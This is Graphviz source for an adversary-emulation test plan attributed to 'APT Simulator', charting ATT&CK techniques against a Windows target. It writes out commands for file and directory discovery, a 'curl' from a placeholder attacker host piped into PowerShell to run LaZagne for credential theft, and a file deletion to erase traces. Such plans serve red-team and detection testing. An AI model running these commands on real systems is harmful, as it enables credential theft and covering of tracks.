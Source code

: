digraph {
	label=<<font point-size="24">Test Plan</font><br/><i>This is test Plan</i><br/><font point-size="10">Author: APT Simulator</font><br/><font point-size="10">Created: 2024-05-04 17:44:50.123593+00:00</font><br/><font point-size="10">Modified: 2024-05-04 17:44:50.123593+00:00</font>>;
	labelloc="t";
	"attack-action--3e7fd426-545c-48de-9a96-aa853092d471" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1083</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1083</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">File and Directory Discovery (cmd.exe)</TD></TR></TABLE>> shape=plaintext]
	"attack-action--3e7fd426-545c-48de-9a96-aa853092d471" -> "attack-asset--fc064ad7-d684-4117-aa0d-c5a5317337ef" [label=asset]
	"attack-action--3e7fd426-545c-48de-9a96-aa853092d471" -> "attack-action--34b71061-954c-4dd1-a1d0-f4c630f1ad6e" [label=effect]
	"attack-action--3e7fd426-545c-48de-9a96-aa853092d471" -> "process--a547eea4-7af9-4b9a-9008-35a87d819ebe" [label=process]
	"attack-asset--fc064ad7-d684-4117-aa0d-c5a5317337ef" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--a547eea4-7af9-4b9a-9008-35a87d819ebe" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">dir /s c:\\ &gt;&gt; {output_file} ; dir /s &quot;c:\\Documents and Settings&quot; &gt;&gt; {output_file} ; dir /s<br/>&quot;c:\\Program Files\\&quot; &gt;&gt; {output_file} ; dir &quot;%systemdrive%\\Users\\*.*&quot; &gt;&gt;<br/>{output_file} ; dir &quot;%userprofile%\\AppData\\Roaming\\Microsoft\\Windows\\Recent\\*.*&quot; &gt;&gt; {output_file}<br/>; dir &quot;%userprofile%\\Desktop\\*.*&quot; &gt;&gt; {output_file} ; tree /F &gt;&gt; {output_file}</TD></TR></TABLE>> shape=plaintext]
	"attack-action--34b71061-954c-4dd1-a1d0-f4c630f1ad6e" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1552.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1552.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Extract Browser and System credentials<br/>with LaZagne</TD></TR></TABLE>> shape=plaintext]
	"attack-action--34b71061-954c-4dd1-a1d0-f4c630f1ad6e" -> "attack-asset--fc064ad7-d684-4117-aa0d-c5a5317337ef" [label=asset]
	"attack-action--34b71061-954c-4dd1-a1d0-f4c630f1ad6e" -> "attack-condition--c2747a71-550d-44b0-a0d6-37e112180d0b" [label=condition]
	"attack-action--34b71061-954c-4dd1-a1d0-f4c630f1ad6e" -> "process--fa71ebfb-7e3a-4fff-936b-04bc362b7f72" [label=process]
	"attack-asset--fc064ad7-d684-4117-aa0d-c5a5317337ef" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--fa71ebfb-7e3a-4fff-936b-04bc362b7f72" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">curl http://{attacker_ip}/lazage.ps1 | powershell</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--c2747a71-550d-44b0-a0d6-37e112180d0b" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ff99" COLSPAN="2"><B>Condition</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">create_file_on_host echo hello &gt;<br/>{file_name}</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--c2747a71-550d-44b0-a0d6-37e112180d0b" -> "attack-action--b0ca3a41-d7c7-4bb4-8675-5f367e885291" [label=on_true]
	"attack-action--b0ca3a41-d7c7-4bb4-8675-5f367e885291" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1070.004</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1070.004</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Delete file from privleged<br/>&quot;logs&quot; folder</TD></TR></TABLE>> shape=plaintext]
	"attack-action--b0ca3a41-d7c7-4bb4-8675-5f367e885291" -> "attack-asset--fc064ad7-d684-4117-aa0d-c5a5317337ef" [label=asset]
	"attack-action--b0ca3a41-d7c7-4bb4-8675-5f367e885291" -> "process--3a17f1c9-26e9-49ba-ab1f-66d68e452d56" [label=process]
	"attack-asset--fc064ad7-d684-4117-aa0d-c5a5317337ef" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--3a17f1c9-26e9-49ba-ab1f-66d68e452d56" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">del {file_name}</TD></TR></TABLE>> shape=plaintext]
}
